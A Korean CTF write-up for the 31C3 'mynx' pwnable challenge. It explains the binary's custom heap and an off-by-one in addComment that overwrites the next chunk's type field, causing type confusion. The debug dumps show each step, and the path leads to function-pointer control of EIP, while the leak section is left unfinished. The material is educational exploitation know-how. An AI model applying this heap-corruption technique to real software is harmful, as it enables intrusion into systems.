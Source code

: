 ```yaml
---
layout: post
title: "31C3 CTF mynx Writeup"
tag:   Writeup
category: Pwnable
---
```


# mynx

**Category:** pwnable

**Points:** 30

**Type:** Off-by-One, Custom Heap Implementation

**Description:**

> mynx running on 188.40.18.80 1234

## Custom Heap Implementation

전역변수 형태로 정의되어 있는 `heapTable@0x0804A900`와 `chunkCntTable@0x0804A904`와 `idxCnt@0x0804A940`가 Heap Management를 수행하는데 사용된다. `heapTable`의 경우 4096(0x1000)byte만큼 할당되는 메모리 블록들의 포인터 배열이며, 각각의 메모리 블록들은 256(0x100)byte 단위(**chunk**라 하자)로 16등분되어 사용된다. 그리고 `chunkCntTable`은 앞에 선언된 `heapTable`에 존재하는 chunk의 개수를 저장하고 있다. 만약 16개가 넘는다면 out-of-memory 에러를 출력하도록 되어있다. `idxCnt`는 이후에 저장되는 ascii_art 혹은 comment 의 id값을 저장하기 위한 변수이다. 해당 바이너리에서 사용되는 구조체는 크게 2가지 유형이 있다.

```c
struct ascii_art {
  char type; // 0x49 : ascii_art
  int id;
  void (*filter_method)(char * content);
  char content[247];
}
```

```c
struct comment {
  char type; // 0x37 : comment
  int id;
  char comment[251];
}
```

두 구조체의 크기는 256(0x100)byte로 동일하다. 즉, 메모리 블록내에 256byte 단위로 존재하는 chunk만큼 할당이 되는 것이다.

## Vulnerability

취약점은 `addComment@0x08048CE3`함수에 존재한다. `addAsciiart@0x08048D8B`의 경우 `read()` 함수로 입력받을 때, 247byte 만큼만 받는다. 하지만, `addComment`의 경우 할당된 크기(251byte)보다 1byte 더 크게 입력 받는다. 즉, 여기서 **Off-by-One** 취약점이 발생한다. 이는 절묘하게도 다음 chunk의 `type`값을 덮어쓸 수 있고, 결국 **Type Confusion** 취약점으로 연계될 수 있다.

Debugging
---------

(1) add ascii_art A1(0x804b008) - AAAA

(2) add ascii_art A2(0x804b108) - BBBB

(3) add comment(C1:0x804b208) to A1 - aaaa

(4) add comment(C2:0x804b308) to A2 - bbbb

```
gdb-peda$ x/8wx 0x0804b008
0x804b008:	0x00000149	0x048c2b00	0x41414108	0x00000a41
0x804b018:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b108
0x804b108:	0x00000249	0x048c2b00	0x42424208	0x00000a42
0x804b118:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b208
0x804b208:	0x00000137	0x61616100	0x00000a61	0x00000000
0x804b218:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b308
0x804b308:	0x00000237	0x62626200	0x00000a62	0x00000000
0x804b318:	0x00000000	0x00000000	0x00000000	0x00000000
```

(5) add ascii_art A3(0x804b408) - CCCC (6) delete comment(C2:0x804b308)

```
gdb-peda$ x/8wx 0x0804b008
0x804b008:	0x00000149	0x048c2b00	0x41414108	0x00000a41
0x804b018:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b108
0x804b108:	0x00000249	0x048c2b00	0x42424208	0x00000a42
0x804b118:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b208
0x804b208:	0x00000137	0x61616100	0x00000a61	0x00000000
0x804b218:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b308
0x804b308:	0x00000200	0x62626200	0x00000a62	0x00000000
0x804b318:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b408
0x804b408:	0x00000349	0x048c2b00	0x43434308	0x00000a43
0x804b418:	0x00000000	0x00000000	0x00000000	0x00000000
```

(7) add comment(C3:0x804b308) to A3 - cccc ; it will put in C2(0x804b308)

```
gdb-peda$ x/8wx 0x0804b008
0x804b008:	0x00000149	0x048c2b00	0x41414108	0x00000a41
0x804b018:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b108
0x804b108:	0x00000249	0x048c2b00	0x42424208	0x00000a42
0x804b118:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b208
0x804b208:	0x00000137	0x61616100	0x00000a61	0x00000000
0x804b218:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b308
0x804b308:	0x00000337	0x63636300	0x00000a63	0x00000000
0x804b318:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b408
0x804b408:	0x00000349	0x048c2b00	0x43434308	0x00000a43
0x804b418:	0x00000000	0x00000000	0x00000000	0x00000000
```

(8) delete comment(C1:0x0804b208)

```
gdb-peda$ x/8wx 0x0804b008
0x804b008:	0x00000149	0x048c2b00	0x41414108	0x00000a41
0x804b018:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b108
0x804b108:	0x00000249	0x048c2b00	0x42424208	0x00000a42
0x804b118:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b208
0x804b208:	0x00000100	0x61616100	0x00000a61	0x00000000
0x804b218:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b308
0x804b308:	0x00000337	0x63636300	0x00000a63	0x00000000
0x804b318:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b408
0x804b408:	0x00000349	0x048c2b00	0x43434308	0x00000a43
0x804b418:	0x00000000	0x00000000	0x00000000	0x00000000
```

(9) add comment(C2) to A2 - "b"*0xfb + "\x49" ; it will put in C1(0x0804b208) and overwrite C3(0x804b308)

```
gdb-peda$ x/8wx 0x0804b008
0x804b008:	0x00000149	0x048c2b00	0x41414108	0x00000a41
0x804b018:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b108
0x804b108:	0x00000249	0x048c2b00	0x42424208	0x00000a42
0x804b118:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b208
0x804b208:	0x00000237	0x62626200	0x62626262	0x62626262
0x804b218:	0x62626262	0x62626262	0x62626262	0x62626262
gdb-peda$ x/8wx 0x0804b308
0x804b308:	0x00000349	0x63636300	0x00000a63	0x00000000
0x804b318:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b408
0x804b408:	0x00000349	0x048c2b00	0x43434308	0x00000a43
0x804b418:	0x00000000	0x00000000	0x00000000	0x00000000

gdb-peda$ x/65wx 0x0804b208
0x804b208:	0x00000237	0x62626200	0x62626262	0x62626262
0x804b218:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b228:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b238:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b248:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b258:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b268:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b278:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b288:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b298:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b2a8:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b2b8:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b2c8:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b2d8:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b2e8:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b2f8:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b308:	0x00000349
```

## EIP Control

실행흐름을 바꾸기 위해서는 여러가지 방법이 존재하지만 여기서는 고맙게도 함수 포인터(Function Pointer)가 존재한다. ![function_ptr]({{ site.url }}/assets/image/2016-12-07/function_ptr.png) 심지어 인자 값까지 컨트롤 가능하므로 완벽한 취약점 조건이 된다.

## Constructing an Information Leak

TBA

## Reference

https://kitctf.de/writeups/31c3-ctf/mynx/  
http://blog.dragonsector.pl/2015/01/31c3-ctf-mynx-pwn-30.html
